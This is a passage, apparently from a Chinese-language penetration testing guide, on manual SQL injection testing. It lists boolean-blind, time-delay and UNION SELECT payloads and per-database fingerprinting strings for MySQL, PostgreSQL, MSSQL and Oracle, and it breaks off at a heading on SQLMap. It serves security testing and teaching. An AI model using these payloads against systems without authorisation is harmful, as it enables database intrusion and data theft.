 **5.1.2 手動SQL注入測試**：

**基礎檢測**：

```sql
# 基本字符測試
'
"
`
';--
";--
`);--

# 布爾盲注測試  
' OR '1'='1
' OR '1'='2
' AND '1'='1
' AND '1'='2

# 時間延遲測試
'; WAITFOR DELAY '00:00:05'--
' OR SLEEP(5)--
'; pg_sleep(5)--

# Union注入測試
' UNION SELECT 1--
' UNION SELECT 1,2--
' UNION SELECT 1,2,3--
```

**資料庫指紋識別**：

```sql
# MySQL
' AND 1=1#
' UNION SELECT version()#
' UNION SELECT @@version#

# PostgreSQL  
' AND 1=1--
' UNION SELECT version()--

# MSSQL
' AND 1=1--
' UNION SELECT @@version--

# Oracle
' AND '1'='1
' UNION SELECT banner FROM v$version--
```

**5.1.3 自動化SQL注入測試**：

**SQLMap使用**：
